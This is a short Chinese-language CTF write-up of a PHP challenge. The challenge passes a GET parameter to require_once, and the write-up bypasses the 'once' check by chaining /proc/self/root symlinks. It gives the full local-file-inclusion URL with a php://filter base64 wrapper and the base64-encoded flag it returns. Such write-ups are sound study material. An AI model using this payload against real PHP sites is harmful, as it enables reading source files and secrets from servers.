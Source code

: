 ![](<./img/Pasted image 20230212095241.png>)

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

参考这篇博客 [Require_once Bypass](https://web.archive.org/web/20230603040425/https://blog.rois.io/2020/require_once-bypass/)

![](<./img/Pasted image 20230212095417.png>)

`/proc/self/root`是指向`/`的符号链接

![](<./img/Pasted image 20230212095650.png>)

最多解析40层符号链接，`self`和`root`均为符号链接，因此复制粘贴二十次就到头了

`php`在到头了之后不会报错，而是将前面40个解析出来的实际路径和后面不能继续解析的带有符号链接的路径拼到一块，当成原始路径。因此在记录已包含文件路径的哈希表中自然查不到该路径，绕过了`once`

```
/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

```
PD9waHAKCiRmbGFnID0gJ2ZsYWd7YThjNTFkMzgtOGZhNi00ZjkyLWJiYTYtYTQ4N2I3YmY1ZDkzfSc7Cg==
```

![](<./img/Pasted image 20230212101412.png>)

#Web #PHP #LFI #linux #bypass #symlink
